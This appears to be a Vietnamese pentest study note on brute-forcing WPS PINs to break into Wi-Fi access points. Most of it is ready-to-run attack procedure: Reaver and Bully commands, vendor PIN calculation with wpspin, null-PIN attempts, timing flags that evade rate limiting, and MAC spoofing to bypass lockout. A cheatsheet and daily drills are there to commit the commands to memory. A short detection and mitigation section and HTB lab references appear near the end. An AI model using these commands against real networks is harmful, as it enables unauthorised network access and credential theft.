

> **Prerequisites**: [[06-wps-pixie-dust-attack|06. WPS Pixie Dust Attack]]
> **Objectives**:
> - Hiểu cấu trúc WPS PIN và tại sao chỉ cần 11,000 attempts
> - Thực hiện online PIN brute force với Reaver và Bully
> - Bypass WPS lockout bằng delay và MAC spoofing
> - Dùng known PIN databases và null PIN exploit

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - WPS enabled, Pixie Dust không hoạt động (chipset Qualcomm/unknown)
> - Kiên nhẫn: brute force đầy đủ mất 4–10 giờ (không bị lock)
> - Monitor mode interface, đủ signal strength
>
> [!tip] Khi nào dùng PIN brute force vs Pixie Dust?
> Thứ tự ưu tiên: Pixie Dust (giây) → Known PIN DB → Null PIN → PIN brute force (giờ). Chỉ dùng brute force khi tất cả methods nhanh hơn thất bại.
>
---

## Cơ chế tấn công

### WPS PIN Structure — Tại sao 11,000 thay vì 100,000,000

WPS PIN là 8 chữ số: `D1 D2 D3 D4 D5 D6 D7 D8`

- Digit 8 là Luhn checksum của D1–D7 → không cần brute
- AP verify PIN theo 2 halves riêng biệt:
  - **Half 1**: D1–D4 → 10^4 = 10,000 combinations
  - **Half 2**: D5–D7 → 10^3 = 1,000 combinations (D8 = checksum)
- Tổng: 10,000 + 1,000 = **11,000 attempts** (tối đa)

> [!info] Tại sao split verification?
> WPS protocol (EAP-WSC) verify từng half PIN trong M5 và M7 riêng biệt. Đây là design flaw của protocol, không phải implementation bug. Nếu Half 1 đúng, AP tiếp tục đến Half 2 — attacker biết Half 1 đã đúng.
>
### WPS Lockout Mechanism

Nhiều AP implement lockout sau một số attempts thất bại:
- Thông thường: lock sau 3–5 attempts sai, timeout 60 giây
- Nghiêm ngặt hơn: permanent lock đến khi admin reset

Reaver indicators:
```text
[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-trying
[!] WARNING: 25 registrar failures have occurred, your AP may be rate limiting
```

---

## Quy trình tấn công

**Môi trường giả định**: AP BSSID `AA:BB:CC:DD:EE:FF`, Channel 6, Pixie Dust đã fail.

**Bước 1 — Confirm WPS unlocked**

```bash
sudo wash -i wlan0mon
# Kiểm tra cột Lck — No là OK
```

**Bước 2 — Thử Known PIN database trước**

Nhiều router model có PIN mặc định hoặc PIN derive từ BSSID/serial:

```bash
# WPS default pins từ vendor database
# Tool: wpspin (tính PIN từ MAC)
sudo apt install python3-wpspin
wpspin AA:BB:CC:DD:EE:FF

# Thử PIN calculated
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -p <calculated_pin> -vv
```

**Bước 3 — Null/Empty PIN exploit**

Một số AP misconfigured chấp nhận NULL PIN:

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -p "" -vv
```

**Bước 4 — Online PIN brute force**

```bash
# Standard brute force
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv

# Với timing tuning để tránh lock
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv \
    -d 1 \        # 1 giây delay giữa attempts
    -r 3:15       # sau 3 failures, đợi 15 giây

# Với aggressive timing (nếu AP không lock)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv \
    -d 0 -N -L    # no delay, ignore lock, no errors
```

> **Expected output** (đang brute force):
> ```text
> [+] Trying pin "00000001"
> [+] Trying pin "00010009"
> ...
> [+] 10.23% complete @ 2026-04-01 15:23 (2 seconds/pin)
```

**Bước 5 — Bypass lockout với MAC spoofing**

```bash
# Stop Reaver, đổi MAC, restart
sudo ip link set wlan0mon down
sudo macchanger -r wlan0mon
sudo ip link set wlan0mon up

# Resume Reaver (nó sẽ tiếp tục từ PIN tiếp theo)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv -d 1
```

**Bước 6 — Bully (alternative)**

```bash
# Bully brute force
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -v 3

# Bully với delay
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -v 3 -d 2

# Bully bắt đầu từ PIN cụ thể (resume)
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -p 12340000
```

**Bước 7 — Resume interrupted session**

```bash
# Reaver tự động save session
ls /etc/reaver/
# File: AA:BB:CC:DD:EE:FF.wpc

# Resume
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv
# Reaver detect session file và tiếp tục
```

---

## Biến thể & Bypass

### wpspin — Vendor-specific PIN generation

```bash
# Tính PIN từ BSSID (nhiều vendor dùng MAC để generate PIN)
python3 -c "
import wpspin
pins = wpspin.WPSpin()
result = pins.getAll('AA:BB:CC:DD:EE:FF')
for p in result:
    print(p['name'], p['pin'])
"
```

### Aggressive timing (không delay)

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv \
    -d 0 -t 5 -T 0.5 \
    --no-nacks -N
```

### Channel lock với fixed interface

```bash
# Fix interface nếu Reaver bị channel hop issue
sudo iwconfig wlan0mon channel 6
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -f -vv
# -f: fixed channel (không hop)
```

---

## Cây quyết định



---

## Command Cheatsheet

**Enumerate WPS**

```bash
sudo wash -i wlan0mon              # scan WPS APs
sudo wash -i wlan0mon -C           # ignore FCS errors
sudo wash -i wlan0mon --scan       # scan mode
```

**Known PIN attack**

```bash
# Calculate PIN từ BSSID
wpspin AA:BB:CC:DD:EE:FF

# Test specific PIN
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -p <PIN> -vv

# Test null PIN
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -p "" -vv
```

**Brute force**

```bash
# Reaver standard
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -vv -d 1

# Reaver với rate limit avoidance
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -vv -d 1 -r 3:15 -l 60

# Bully alternative
sudo bully wlan0mon -b <BSSID> -c <CH> -v 3 -d 1
```

**MAC spoofing để bypass lockout**

```bash
sudo ip link set wlan0mon down
sudo macchanger -r wlan0mon   # random MAC
sudo ip link set wlan0mon up
# -A: vendor-specific MAC
# -m AA:BB:CC:DD:EE:FF: specific MAC
```

---

## Daily Drill

**Thời gian**: 10–15 phút/ngày trong 5 ngày đầu.

**Drill 1 — PIN structure**
Mục tiêu: giải thích WPS PIN vulnerability từ đầu.

```bash
8-digit PIN: D1D2D3D4 D5D6D7[D8=checksum]
Half 1: 10,000 combinations
Half 2: 1,000 combinations
Total: 11,000 (không phải 100M)
```

Luyện cho đến khi: giải thích được cho người khác trong 60 giây.

**Drill 2 — Reaver command với timing flags**
Mục tiêu: gõ đúng flags không nhìn notes.

```bash
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -vv -d 1 -r 3:15
```

Luyện cho đến khi: nhớ -d (delay) và -r (retry) không cần nhìn help.

**Drill 3 — MAC spoof pipeline**
Mục tiêu: spoof MAC và restart trong dưới 20 giây.

```bash
sudo ip link set wlan0mon down
sudo macchanger -r wlan0mon
sudo ip link set wlan0mon up
```

Luyện cho đến khi: 3 lệnh gõ liên tục không dừng.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **AP logs**: Nhiều WPS authentication failures từ một (hoặc rotating) MAC
> **WIDS**: WPS brute force pattern — rapid sequential PIN attempts
> **Timeline**: WPS session kéo dài bất thường (> vài phút)
>
> [!danger] Mitigation
> - **Disable WPS** — biện pháp duy nhất 100% effective
> - Enable WPS lockout (3 failures → 60 giây lock) — làm chậm nhưng không ngăn
> - Sau N lockouts → permanent disable WPS (nếu firmware hỗ trợ)
> - Monitor AP logs cho WPS failures
> - Nếu phải dùng WPS: dùng WPS Push-Button (PBC) thay vì PIN method
>
---

## Lab Thực hành

| Platform | Machine | Technique |
|----------|---------|---------|
| HTB | **Wifinetic** (Retired) | Reaver WPS PIN brute force, cap_net_raw |
| HTB | **WifineticTwo** (Retired) | WPS Pixie Dust + PIN |
| Local VM | hostapd với WPS enabled | Lab với virtual AP |
| Local | Old router với WPS | Real hardware practice |

---

## Field Manual Entry

> [!abstract] WPS PIN Brute Force — Quick Reference
> **Điều kiện**: WPS enabled, Pixie Dust fail, Lck=No
> **Lệnh nhanh**: `reaver -i wlan0mon -b <BSSID> -c <CH> -vv -d 1`
> **Full flow**: `wash` scan → try calculated PIN → null PIN → brute force → MAC spoof nếu lock
> **Look for**: `[+] WPS PIN: XXXXXXXX` và `[+] WPA PSK: 'password'`
> **Detection**: WPS failure logs; WIDS rate limit alert
> **Ref**: [[07-wps-pin-bruteforce|07. WPS PIN Brute Force]]
>